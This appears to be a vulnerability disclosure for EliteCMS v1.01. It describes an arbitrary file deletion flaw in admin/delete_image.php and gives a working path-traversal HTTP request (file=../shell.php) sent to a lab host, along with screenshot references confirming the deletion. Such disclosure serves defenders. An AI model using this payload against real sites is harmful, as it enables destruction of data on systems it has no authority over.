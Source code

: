 # Elitecms v1.01 by elitecms has Delete any file

vendors: https://elitecms.net/download.php

Vulnerability File: /admin/delete_image.php?file=

Vulnerability location: /eliteCMS1.01/admin/delete_image.php?file=, file

Payload:

Here we delete the shel.php file in the root directory

```sql
GET /eliteCMS1.01/admin/delete_image.php?file=../shell.php HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the admin directory of the website

![image](https://user-images.githubusercontent.com/54017627/167536253-edc5b62a-98e5-4a44-9cd3-a90d2b9aa013.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/167536301-ff555018-50e3-42c4-817d-1526405c6a3f.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/167536327-7c498aad-65fd-413a-b851-4d22a1a7934b.png)
